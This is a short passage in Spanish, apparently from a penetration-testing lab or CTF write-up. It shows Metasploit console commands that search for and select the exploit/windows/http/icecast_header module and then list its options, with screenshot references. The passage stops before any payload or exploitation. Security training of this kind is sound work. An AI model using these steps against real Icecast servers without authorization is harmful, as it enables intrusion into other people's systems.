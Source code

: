 Hacemos un search a icecast.  

```bash 

search icecast

```

Vemos que la ruta del modulo es **exploit/windows/http/icecast_header**

![Search icecast](img/5.png)

Hacemos use 0 para seleccionarlo.

```bash 

use 0

```

![use 0](img/6.png)

Vemos las opciones del modulo:

```bash 

show options

```

![options](img/7.png)
